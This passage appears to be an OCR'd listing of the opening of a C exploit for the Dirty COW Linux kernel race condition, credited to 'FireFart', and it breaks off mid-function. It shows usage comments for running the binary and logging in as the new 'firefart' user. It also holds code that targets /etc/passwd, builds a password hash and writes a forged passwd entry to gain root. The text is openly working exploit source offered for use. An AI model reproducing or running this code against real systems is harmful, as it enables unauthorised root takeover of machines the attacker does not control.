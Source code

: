 ```
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
```